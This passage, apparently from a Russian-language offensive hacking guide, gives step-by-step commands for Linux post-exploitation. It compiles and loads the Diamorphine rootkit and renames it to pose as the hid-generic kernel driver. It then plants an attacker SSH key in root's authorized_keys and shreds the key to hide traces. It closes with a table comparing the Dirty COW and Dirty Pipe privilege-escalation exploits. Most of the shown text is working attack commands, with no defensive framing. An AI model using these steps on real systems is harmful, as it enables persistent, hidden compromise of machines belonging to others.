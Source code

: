 **Шаг 2: Установка руткита в ядро**
```bash
# Скачиваем и компилируем руткит Diamorphine
git clone https://github.com/m0nad/Diamorphine
cd Diamorphine
make

# Загружаем модуль ядра
insmod diamorphine.ko

# Скрываем модуль
rmmod diamorphine  # Временно выгружаем
mv diamorphine.ko /lib/modules/$(uname -r)/kernel/drivers/hid/hid-generic.ko
depmod -a
modprobe hid-generic
```
1. Модуль скрывает:
   - Свои процессы
   - Свои файлы
   - Сетевые соединения
2. Позволяет:
   - Скрывать другие вредоносные процессы
   - Получать root по требованию
   - Оставаться невидимым для большинства средств обнаружения

**Шаг 3: Создание скрытого SSH-доступа**
```bash
# Генерируем ключ на атакующей машине
ssh-keygen -t ed25519 -f attacker_key -N ""

# Добавление ключа в authorized_keys
echo 'command="sleep 10" '$(cat attacker_key.pub) >> /root/.ssh/authorized_keys

# Очистка следов
shred -zu attacker_key
```

---

### Сравнительная таблица

| Параметр             | **Dirty COW** (CVE-2016-5195) | **Dirty Pipe** (CVE-2022-0847) |
|----------------------|-------------------------------|--------------------------------|
| **Тип уязвимости**   | Race condition                | Uninit pipe flag               |
| **Сложность**        | Средняя                       | Низкая                         |
| **Стабильность**     | Низкая (50% успех)            | Высокая (100%)                 |
| **Требуемый доступ** | Локальный пользователь        | Локальный пользователь         |
| **Патч**             | Ядро 4.8.3+                   | Ядро 5.16.11+                  |
| **Обнаружение**      | Аудит madvise()               | Анализ splice()                |
